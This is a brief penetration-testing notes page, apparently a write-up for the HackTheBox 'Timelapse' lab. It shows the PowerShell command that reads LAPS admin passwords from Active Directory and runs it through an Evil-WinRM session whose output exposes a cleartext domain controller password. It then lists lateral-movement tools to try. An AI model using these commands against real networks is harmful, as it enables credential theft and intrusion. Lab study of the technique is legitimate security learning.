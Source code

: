 # LAPS Password Read

We execute the following command in Powershell if we want to read LAPS Passwords.&#x20;

```
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime
```

![](../../../.gitbook/assets/2022-07-27\_23-54.png)

Notice in the output how the password is contained within ms-Mcs-AdmPwd.

```
Evil-WinRM* PS C:\Users> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}


PSComputerName              : localhost
RunspaceId                  : ae9923c4-551b-480e-aebd-e19931fe811a
DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                 : dc01.timelapse.htb
Enabled                     : True
ms-Mcs-AdmPwd               : 8p4Uc,AC5lJ9E]P9X7#3$10@
ms-Mcs-AdmPwdExpirationTime : 132951514281823553
Name                        : DC01
ObjectClass                 : computer
ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName              : DC01$
SID                         : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName           :
```

Now we try the whole deal:

* [ ] psexec
* [ ] evilwinrm
* [ ] psremoting
* [ ] runas
* [ ] cme

